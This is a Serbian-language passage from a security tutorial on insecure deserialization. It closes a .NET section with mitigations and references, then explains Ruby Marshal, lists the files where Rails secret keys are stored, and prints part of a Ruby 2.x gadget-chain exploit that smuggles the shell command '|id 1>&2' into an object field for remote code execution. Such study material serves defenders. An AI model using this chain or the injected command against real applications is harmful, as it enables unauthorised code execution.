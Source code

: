 * **Budite informisani o poznatim nesigurnim deserializacijskim gadgetima** u okviru .Net-a i obezbedite da deserializatori ne instanciraju takve tipove.
* **Izolujte potencijalno rizičan kod** od koda sa pristupom internetu kako biste izbegli izlaganje poznatih gadgeta, poput `System.Windows.Data.ObjectDataProvider` u WPF aplikacijama, nepouzdanim izvorima podataka.

### **Reference**

* Java i .Net JSON deserializacija **rad:** [**https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf**](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)**,** predavanje: [https://www.youtube.com/watch?v=oUAeWhW5b8c](https://www.youtube.com/watch?v=oUAeWhW5b8c) i slajdovi: [https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [https://cheatsheetseries.owasp.org/cheatsheets/Deserialization\_Cheat\_Sheet.html#net-csharp](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization\_Cheat\_Sheet.html#net-csharp)
* [https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH\_US\_12\_Forshaw\_Are\_You\_My\_Type\_WP.pdf](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH\_US\_12\_Forshaw\_Are\_You\_My\_Type\_WP.pdf)
* [https://www.slideshare.net/MSbluehat/dangerous-contents-securing-net-deserialization](https://www.slideshare.net/MSbluehat/dangerous-contents-securing-net-deserialization)

## **Ruby**

U Ruby-ju, serijalizacija se olakšava pomoću dve metode unutar **marshal** biblioteke. Prva metoda, poznata kao **dump**, koristi se za pretvaranje objekta u niz bajtova. Ovaj proces se naziva serijalizacija. S druge strane, druga metoda, **load**, koristi se za vraćanje niza bajtova u objekat, proces poznat kao deserijalizacija.

Za obezbeđivanje serijalizovanih objekata, **Ruby koristi HMAC (Hash-Based Message Authentication Code)**, obezbeđujući integritet i autentičnost podataka. Ključ koji se koristi u tu svrhu čuva se na jednom od nekoliko mogućih lokacija:

* `config/environment.rb`
* `config/initializers/secret_token.rb`
* `config/secrets.yml`
* `/proc/self/environ`

**Ruby 2.X generički deserializacija u RCE gadget lanac (više informacija na** [**https://www.elttam.com/blog/ruby-deserialization/**](https://www.elttam.com/blog/ruby-deserialization/)**)**:

```ruby
#!/usr/bin/env ruby

# Code from https://www.elttam.com/blog/ruby-deserialization/

class Gem::StubSpecification
def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)
```